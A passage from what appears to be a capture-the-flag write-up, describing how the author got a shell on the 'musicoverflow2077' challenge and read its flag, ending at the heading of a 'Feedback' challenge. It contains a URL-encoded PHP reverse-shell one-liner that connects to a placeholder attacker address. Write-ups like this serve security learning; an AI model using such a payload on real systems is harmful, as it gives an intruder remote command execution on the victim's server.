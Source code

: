 Next is to inject some reverse shell but most of them weren't working for some reason but the following `php` shell worked.

```php
php+-r+'$sock%3dfsockopen("<your-ip>",17243)%3b`sh+<%263+>%263+2>%263`%3b'
```

Finally read the flag from `/` directory.

!["Flag for musicoverflow2077"](18.png "Flag for musicoverflow2077")

### Feedback

#### Description

!["Description for feedback"](19.png "Description for feedback")
